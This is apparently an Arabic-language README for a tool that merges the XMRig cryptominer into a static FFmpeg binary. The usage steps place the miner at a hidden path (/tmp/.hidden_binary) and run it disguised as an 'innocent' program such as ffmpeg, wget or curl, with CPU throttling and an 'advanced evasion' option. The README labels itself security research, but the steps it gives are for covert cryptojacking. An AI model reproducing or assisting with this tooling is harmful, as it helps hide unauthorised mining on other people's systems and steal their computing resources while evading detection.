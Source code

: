 ## ⚠️ **متطلبات الدمج الثنائي:**

### **ملفات مطلوبة:**
- `ffmpeg` - ملف FFmpeg static binary
- `xmrig` - ملف XMRig مبني مسبقاً
- `config.json` - إعدادات XMRig

### **تحميل FFmpeg Static:**
```bash
# من الموقع الرسمي
wget https://johnvansickle.com/ffmpeg/builds/ffmpeg-git-amd64-static.tar.xz
tar -xf ffmpeg-git-amd64-static.tar.xz
cp ffmpeg-git-*/ffmpeg ./
```

---

**🔒 نظام دمج احترافي للبحث الأمني المتقدم**

## 🚀 الاستخدام

### 1. بناء النظام
```bash
cd Linking
chmod +x linking_builder.sh
./linking_builder.sh
```

### 2. إعداد الملف الخفي
```bash
# ضع ملفك الخفي (مثل XMRig) في المكان المحدد
cp /path/to/xmrig /tmp/.hidden_binary
chmod +x /tmp/.hidden_binary
```

### 3. تشغيل النظام
```bash
cd output

# استخدام FFmpeg كغطاء (افتراضي)
./seamless_linker

# استخدام wget كغطاء مع تحديد حد CPU
./seamless_linker --innocent wget --max-cpu 60

# تفعيل تقنيات الإخفاء المتقدمة
./seamless_linker --innocent curl --advanced-evasion

# عرض جميع الخيارات
./seamless_linker --help
```
